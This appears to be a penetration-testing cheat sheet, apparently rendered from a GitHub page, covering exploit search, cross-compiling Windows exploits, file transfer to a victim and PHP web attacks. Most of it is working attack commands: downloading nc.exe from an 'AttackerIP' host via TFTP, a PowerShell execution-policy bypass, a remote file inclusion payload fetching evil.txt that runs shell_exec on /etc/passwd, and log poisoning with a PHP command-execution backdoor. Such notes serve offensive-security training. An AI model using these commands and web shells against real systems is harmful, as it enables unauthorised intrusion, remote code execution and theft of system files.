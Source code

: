 # Exploitation
_Finding Public Exploits:_  
`www.securityfocus.com/vulnerabilities  
www.exploit-db.com`

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`
